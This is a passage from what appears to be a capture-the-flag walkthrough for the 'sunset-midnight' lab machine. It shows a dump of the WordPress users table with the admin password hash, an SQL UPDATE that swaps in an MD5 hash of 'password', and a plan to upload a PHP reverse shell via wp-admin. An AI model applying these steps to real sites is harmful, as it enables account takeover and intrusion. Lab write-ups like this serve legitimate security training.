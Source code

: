 List users in wp_users table:

    MariaDB [wordpress_db]> SELECT * FROM wp_users;
    
    +----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
    | ID | user_login | user_pass                          | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
    +----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
    |  1 | admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin       |
    +----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
    1 row in set (0.101 sec)
	  
Rather than trying to crack admin password we can simply replace it with one of our choosing.  First we need to generate a new password hash.  The password in the table is a Wordpress formatted hash but Wordpress will accept MD5 hashes as well.  We can generate an MD5 hash of 'password' from the command line:

    echo -n password | md5sum
	  
We get the following hash:
  
    5f4dcc3b5aa765d61d8327deb882cf99

We can insert the new hash into the wp_users table with the following command:

    UPDATE wp_users SET user_pass = '5f4dcc3b5aa765d61d8327deb882cf99' WHERE ID = 1;
	
## PHP-reverse-shell

After changing the admin password we can log into the wordpess admin panel to upload a reverse shell.

A look back at our nmap results shows us that Wordpress admin panel may accessible at `/wp-admin`.

    80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Did not follow redirect to http://sunset-midnight/
    | http-robots.txt: 1 disallowed entry 
    |_/wp-admin/

Navigating to 192.168.94.88 in the browser confirms this.

